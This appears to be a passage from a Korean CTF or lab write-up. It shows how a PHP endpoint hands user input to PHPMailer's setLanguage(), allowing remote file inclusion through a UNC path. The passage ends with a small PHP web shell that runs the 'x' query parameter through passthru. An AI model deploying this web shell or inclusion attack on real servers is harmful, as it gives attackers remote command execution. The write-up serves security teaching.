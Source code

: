 ```jsx
        } catch {
            toast(text, "error");
        }
    });
}

// contact.php
```

해당 옵션을 사용하면 `api/language.php` 로 요청을 보내는데, 선택한 옵션의 value를 `code` 라는 변수명으로 보내고, `path` 는 공백으로 함께 전송하는 것을 확인할 수 있습니다.

```php
<?php
    include_once "config.php";

    $code = @$_GET["code"];
    $path = @$_GET["path"];

    $errormsg = "";
    try {
        $mail->setLanguage($code, $path);
    } catch(Exception $e) {
        $errormsg = $e->getMessage();
    }

    if($errormsg !== "") {
        echo json_encode(array("result"=>false, "msg"=>"language config error"));
        return;
    }

    echo json_encode(array("result"=>true));

// /api/language.php
```

`language.php` 에서는 전달 받은 `code` 와 `path` 를 이용하여 `setLanguage()` 함수의 인자로 전달하여 실행하는 것을 확인할 수 있습니다.

이제 `setLanguage()` 함수를 이용하여 `RFI` 취약점을 트리거 시킬 수 있게 되었습니다.

`PHPMailer.php`의 `setLanaguae()` 함수에서 `$lang_file` 의 구성을 다시 살펴봅시다.

```php
$lang_file = $lang_path . 'phpmailer.lang-' . $langcode . '.php'; 
```

`$lang_path` 는 `UNC` 를 이용하여 원격 주소지를 표현해주면 되며, `$langcode` 가 `en` 이나 `ko` 등으로 표현되기 때문에 파일명은 `phpmailer.lang-ko.php` 와 같이 지정해주어야합니다.

```php
<?php                                                                                                                                                                                                                                                                         
    // phpmailer.lang-ko.php                                                                                                                                                                                                                                                  
    header("Content-Type: text/html; charset=euc-kr");                                                                                                                                                                                                                        
    echo passthru($_GET["x"]);                                                                                                                                                                                                                                                
?>
```
